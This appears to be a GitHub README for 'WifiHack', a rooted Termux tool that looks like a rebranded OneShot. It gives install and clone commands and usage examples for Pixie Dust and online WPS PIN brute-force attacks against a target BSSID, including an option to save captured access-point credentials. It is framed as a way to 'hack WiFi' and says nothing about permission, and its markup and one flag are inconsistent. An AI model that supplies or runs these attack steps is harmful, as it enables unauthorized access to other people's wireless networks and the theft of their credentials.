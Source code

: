 
### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="<a href="<a href="https://ibb.co/9rmXkDT"><img src="https://i.ibb.co/9rmXkDT/1-orig.jpg" alt="1-orig" border="0"></a>


## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 ```
 ```
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
### Getting WifiHack
 ```
 git clone --depth 1 https://github.com/Gtajisan/WifiHack
 ```
 ```
 cd WifiHack
 ```
### Running
 ```
 sudo python farhan.py -i wlan0 -K
 ```
### One line Command
 ```
 sudo python WifiHack/farhan.py -i wlan0 -K
 ```

# Usage
```
 farhan.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 farhan.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 farhan.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Than all root users 
* FARHAN X ME
## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 🐸🙄
## ki obsta 🤡
## cd WifiHack sudo python WifiHack/farhan.py -i wlan0 -K
## আমি ফারহান 🙁

